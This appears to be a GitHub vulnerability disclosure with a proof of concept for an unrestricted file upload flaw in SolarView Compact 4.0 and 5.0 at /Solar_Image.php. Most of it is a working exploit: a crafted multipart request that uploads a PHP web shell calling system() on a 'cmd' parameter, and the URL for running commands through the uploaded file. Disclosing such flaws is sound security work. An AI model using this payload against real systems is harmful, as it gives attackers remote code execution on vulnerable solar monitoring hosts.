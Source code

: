 # Unrestricted File Upload vulnerability in SolarView Compact 4.0,5.0

## Description 

Unrestricted File Upload vulnerability in SolarView Compact 4.0,5.0 at /Solar_Image.php can allow attackers to get a Remote Code Execution on the vulnerable host via upload crafted php file.

## POC

1. navigate to /Solar_Image.php
2. ulpad any php file and caputre the request
3. update the `userfile` and `upfilename` parameters like this:
```
-----------------------------168287165333758025211172961484
Content-Disposition: form-data; name="userfile"; filename="shell.php"
Content-Type: application/octet-stream

<?php echo "Shell";system($_GET['cmd']); ?>
-----------------------------168287165333758025211172961484
Content-Disposition: form-data; name="upfilename"

shell.php
-----------------------------168287165333758025211172961484
```

4. send the request and navigate to /images/background/shell.php?cmd=ls


![image](https://user-images.githubusercontent.com/94288990/198857461-19af0c62-2971-4053-aca2-7bea71175040.png)


